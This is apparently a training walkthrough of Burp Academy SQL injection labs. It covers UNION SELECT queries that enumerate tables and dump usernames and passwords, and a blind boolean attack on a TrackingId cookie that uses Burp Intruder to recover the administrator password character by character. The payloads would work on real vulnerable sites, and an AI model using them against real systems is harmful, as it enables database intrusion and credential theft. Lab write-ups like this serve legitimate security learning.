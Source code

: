 ```yaml
---
description: A walkthrough of one of the Burp Academy Labs
---
```


# SQLi Walkthrough

## SQL UNION SELECT

When we enter the room are presented with a web page:

![](../.gitbook/assets/image%20%2823%29.png)

### Injection Point

From here we search for our parameter that is injectable, clicking on one of the product categories we find an injection point:

![&quot;category=gifts&quot; is our injection point](../.gitbook/assets/image%20%2821%29.png)

### Counting Columns

First we need to craft a statement that will identify how many columns are in the table:

```text
' ORDER BY 1,2--
```

![](../.gitbook/assets/image%20%288%29.png)

The page loads with 2, and errors at 3, so there are 2 columns we have discovered. we can double check this with the following:

```text
' UNION SELECT NULL,NULL--
```

![](../.gitbook/assets/image%20%2830%29.png)

### Strings?

Next we have to discover if any of these columns can take a string value, we can add 'a' in place of the null to test this:

![](../.gitbook/assets/image%20%2811%29.png)

![](../.gitbook/assets/image%20%2827%29.png)

### Find Table Names

Next we should discover which tables are located within the database.

```text
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![](../.gitbook/assets/image%20%2817%29.png)

From the list displayed we can find any interesting tables:

![](../.gitbook/assets/image%20%2825%29.png)

### Find Column Names

We now need to discover which columns are within this table, using the following:

```text
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_uiykfb'--
```

![](../.gitbook/assets/image%20%2822%29.png)

### Sweet Sweet Data

Now we have the column names we can get the data!

```text
' UNION SELECT username_kwdcsh,password_possgi FROM users_uiykfb--
```

![](../.gitbook/assets/image%20%2812%29.png)

## Blind SQL - Conditional Responses

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`

![](../.gitbook/assets/image%20%2829%29.png)

### Find True

Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the "Welcome back" message appears in the response. 

![](../.gitbook/assets/image%20%285%29.png)

![Welcome Back appears](../.gitbook/assets/image%20%286%29.png)

### Find False

Now change it to: `TrackingId=xyz' AND '1'='2` Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

![](../.gitbook/assets/image%20%2813%29.png)

![](../.gitbook/assets/image%20%2832%29.png)

### Check Table Exists

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` Verify that the condition is true \(welcome back message should appear\), confirming that there is a table called users. 

![](../.gitbook/assets/image%20%289%29.png)

### Check User Exists

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` Verify that the condition is true, confirming that there is a user called administrator. 

![](../.gitbook/assets/image%20%2814%29.png)

### Find length of password

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`. This condition should be true, confirming that the password is greater than 1 character in length. 

![](../.gitbook/assets/image%20%2819%29.png)

Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`. Then send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`. And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true \(i.e. when the "Welcome back" message disappears\), you have determined the length of the password.

![](../.gitbook/assets/image%20%2826%29.png)

![](../.gitbook/assets/image%20%287%29.png)

### Determine character in each position.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

 In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button. 

In the Positions tab, change the value of the cookie to: `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a.` This uses the SUBSTRING\(\) function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value \(note the payload position markers\): TrackingId=xyz' AND \(SELECT SUBSTRING\(password,1,1\) FROM users WHERE username='administrator'\)='§a§ 

![](../.gitbook/assets/image%20%2818%29.png)

To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. . Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. 

![](../.gitbook/assets/image%20%2824%29.png)

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

![](../.gitbook/assets/image%20%2816%29.png)

 Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu. 

Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

![](../.gitbook/assets/image%20%2820%29.png)

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: TrackingId=xyz' AND \(SELECT SUBSTRING\(password,2,1\) FROM users WHERE username='administrator'\)='a

Launch the modified attack, review the results, and note the character at the second offset. 

Continue this process testing offset 3, 4, and so on, until you have the whole password. 

It is possible to use 2 payloads and a cluster bomb attack to test all combinations at once.

![](../.gitbook/assets/image%20%2831%29.png)

